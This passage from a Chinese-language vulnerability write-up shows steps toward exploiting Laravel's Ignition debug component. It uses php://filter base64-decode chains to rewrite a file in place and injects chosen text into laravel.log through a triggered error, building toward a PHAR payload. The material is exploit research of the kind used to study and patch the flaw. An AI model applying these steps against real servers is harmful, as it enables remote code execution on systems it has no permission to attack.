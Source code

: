 **日志文件到 PHAR**

**PHP 包装器：更改文件**

            现在，大家可能都听说过蔡橙子演示的上传进度技术。它利用 php://filter 来改变文件的内容，然后再返回。我们可以利用这一点，用我们的 exploitation primitive 来改造文件的内容：

```
$ echo test | base64 | base64 > /path/to/file.txt
$ cat /path/to/file.txt
ZEdWemRBbz0K
```

```
$f = 'php://filter/convert.base64-decode/resource=/path/to/file.txt';
# Reads /path/to/file.txt, base64-decodes it, returns the result
$contents = file_get_contents($f); 
# Base64-decodes $contents, then writes the result to /path/to/file.txt
file_put_contents($f, $contents);
```

```
$ cat /path/to/file.txt
test
```

            我们已经改变了文件的内容 ! 遗憾的是，这将会应用两次转换。阅读文档后，我们发现有一种方法可以只应用一次：

```
# To base64-decode once, use:
$f = 'php://filter/read=convert.base64-decode/resource=/path/to/file.txt';
# OR
$f = 'php://filter/write=convert.base64-decode/resource=/path/to/file.txt';
```

Badchars 甚至会被忽略

```
$ echo ':;.!!!!!ZEdWemRBbz0K:;.!!!!!' > /path/to/file.txt
```

```
$f = 'php://filter/read=convert.base64-decode|convert.base64-decode/resource=/path/to/file.txt';
$contents = file_get_contents($f); 
file_put_contents($f, $contents);
```

```
$ cat /path/to/file.txt
test
```

**编写日志文件**

            默认情况下，Laravel 的日志文件包含每一个 PHP 错误和堆栈跟踪，存储在存储 / log/laravel.log 中。让我们通过尝试加载一个不存在的文件来产生错误, SOME_TEXT_OF_OUR_CHOICE:

```
[2021-01-11 12:39:44] local.ERROR: file_get_contents(SOME_TEXT_OF_OUR_CHOICE): failed to open stream: No such file or directory {"exception":"[object] (ErrorException(code: 0): file_get_contents(SOME_TEXT_OF_OUR_CHOICE): failed to open stream: No such file or directory at /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php:75)
[stacktrace]
#0 [internal function]: Illuminate\\Foundation\\Bootstrap\\HandleExceptions->handleError()
#1 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php(75): file_get_contents()
#2 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php(67): Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution->makeOptional()
#3 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Http/Controllers/ExecuteSolutionController.php(19): Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution->run()
#4 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Routing/ControllerDispatcher.php(48): Facade\\Ignition\\Http\\Controllers\\ExecuteSolutionController->__invoke()
[...]
```
